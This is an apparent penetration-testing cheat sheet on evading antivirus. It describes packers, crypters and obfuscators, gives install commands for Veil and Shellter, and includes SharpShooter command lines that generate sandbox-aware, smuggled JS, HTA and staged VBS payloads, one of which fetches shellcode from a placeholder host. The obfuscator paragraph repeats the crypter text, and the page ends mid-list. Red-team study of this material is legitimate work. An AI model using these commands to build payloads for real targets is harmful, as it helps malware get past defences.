# Bypassing AV

### Packers <a id="veil-framework"></a>

Reduces the file of an executable. The functionally is equivalent with a complete new binary structure. The result is a new signature therefore bypassing OLDER AV's 

### Crypters <a id="veil-framework"></a>

Alters executable code with cryptography and adds a decrypting stub that stores the original code for execution. The encrypted code is on disk. The decryption happens in memory. This technique can be very effective against AVs.

### Obfuscators <a id="veil-framework"></a>

Alters executable code with cryptography and adds a decrypting stub that stores the original code for execution. The encrypted code is on disk and the decryption happens in memory. This technique can be very effective against AV.  However, obfuscators are often used in scripts whereas crypters are often used in binaries.

### Veil Framework <a id="veil-framework"></a>

Install on Kali:

```text
apt install veil
/usr/share/veil/config/setup.sh --force --silent
```

Reference: [https://github.com/Veil-Framework/Veil](https://github.com/Veil-Framework/Veil)

### Shellter <a id="shellter"></a>

Source: [https://www.shellterproject.com/download/](https://www.shellterproject.com/download/)

```text
apt install shellter
```

### Sharpshooter <a id="sharpshooter"></a>

Javascript Payload Stageless:

```text
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3
```

Stageless HTA Payload:

```text
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee
```

Staged VBS:

```text
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```

Reference: [https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)

### Donut <a id="donut"></a>

Source: [https://github.com/TheWover/donut](https://github.com/TheWover/donut)

### Vulcan <a id="vulcan"></a>

Source: [https://github.com/praetorian-code/vulcan](https://github.com/praetorian-code/vulcan)

### GreatSCT

Source: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

### Ebowla Encoding for AV Evasion



